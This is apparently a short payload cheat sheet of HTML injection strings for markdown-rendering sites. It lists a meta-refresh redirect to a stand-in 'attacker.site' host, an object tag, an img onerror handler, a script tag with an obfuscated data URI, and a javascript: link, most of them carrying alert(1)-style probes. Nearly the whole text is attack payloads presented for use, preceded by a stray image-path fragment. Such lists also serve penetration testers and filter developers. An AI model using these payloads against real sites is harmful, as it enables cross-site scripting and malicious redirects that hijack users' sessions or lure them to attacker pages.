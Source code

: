 ## Redirect

### Meta <i> (useful for websites that supports only few markdown features) </i>
```html
<meta http-equiv="refresh" content='0; url=http://attacker.site/'>
```

### Object
```html
<object data="/path" type="text/html"></object>
```
<br>

## Execution

### Img
```html
<img src=x onerror="something();"/>
```

### Script src
```html
<script src="data:\xD4\x8F,javascript:alert(1)">
```

### A Tag
```html
<a href="javascript:alert(1)">
```

